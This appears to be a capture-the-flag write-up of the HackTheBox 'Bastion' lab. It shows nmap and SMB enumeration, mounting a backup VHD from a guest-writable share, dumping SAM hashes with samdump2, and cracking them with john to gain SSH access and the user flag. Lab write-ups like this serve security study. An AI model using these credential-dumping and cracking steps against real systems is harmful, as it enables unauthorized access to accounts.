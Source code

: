 # Bastion

10.10.10.134

![jerry](jerry.jpg)



# Enumerate

## Scan

```
PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2016 build 10586 - 14393 (96%), Microsoft Windows Server 2016 (95%), Microsoft Windows 10 1507 (93%), Microsoft Windows 10 1507 - 1607 (93%), Microsoft Windows 10 1511 (93%), Microsoft Windows Server 2012 (93%), Microsoft Windows Server 2012 R2 (93%), Microsoft Windows Server 2012 R2 Update 1 (93%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (93%), Microsoft Windows Vista SP1 - SP2, Windows Server 2008 SP2, or Windows 7 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m58s, deviation: 1h09m14s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-06-20T19:48:10+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-20T17:48:09
|_  start_date: 2020-06-20T17:41:15
```

## Enumerate Services

```
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Bastion$ smbmap -u guest -H 10.10.10.134
[+] IP: 10.10.10.134:445        Name: unknown                                           
[-] Work[!] Unable to remove test directory at \\10.10.10.134\Backups\FTWYUHLMSZ, please remove manually
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```

* Webpage on 47001 just shows 404. Running Dirbuster. Same on 5985.
* Look through the backups

```
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Bastion$ smbclient //10.10.10.134/Backups
Enter WORKGROUP\pat's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Sat Jun 20 13:49:30 2020
  ..                                  D        0  Sat Jun 20 13:49:30 2020
  FTWYUHLMSZ                          D        0  Sat Jun 20 13:49:30 2020
  note.txt                           AR      116  Tue Apr 16 06:10:09 2019
  SDT65CB.tmp                         A        0  Fri Feb 22 07:43:08 2019
  WindowsImageBackup                  D        0  Fri Feb 22 07:44:02 2019
```

* Too much. Just mount it. 

```
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Bastion$ sudo mount -r -t cifs //10.10.10.134/Backups backups_mount/
[sudo] password for pat: 
Password for root@//10.10.10.134/Backups:  <enter w/o input> 
```

# Access

* Found a forum post to describe how to mount the vhd
* https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25

```
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Bastion/backups_mount/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351$ guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd  --inspector --ro ~/Desktop/Cert_Prep/htb/Windows/Bastion/vhdMount -v
```

* Dump the SAM stuff and registry hive with samdump to get the hashes. 

```
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Bastion/vhdMount/Windows/System32/config$ samdump2 SYSTEM SAM
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

* Try to crack the hash. 

```
pat@kali:~/Desktop/Cert_Prep/htb/Windows/Bastion$ john hashes.txt --format=NT --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 256/256 AVX2 8x3])
Remaining 1 password hash
Warning: no OpenMP support for this hash type, consider --fork=6
Press 'q' or Ctrl-C to abort, almost any other key for status
bureaulampje     (L4mpje)
1g 0:00:00:00 DONE (2020-06-20 14:11) 1.149g/s 10799Kp/s 10799Kc/s 10799KC/s burg772v..burdy1
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

* Tried to do some stuff with impacket psexec and evil-winrm to get shell. Nothing worked. Can ssh with that password.
* Get user flag. 9bfe57d5c3309db3a151772f9d86c6cd

# Escalate

* winpeas didn't find anything helpful really. 
* powerup didn't find anything. 
* Seatbelt doesn't work because of some permissions
* Can't do systeminfo because denied. 
* See mrenoteng in program files and google after searchsploit empty. Apparently can decypt passwords. Then just log in. Not gonna bother. 

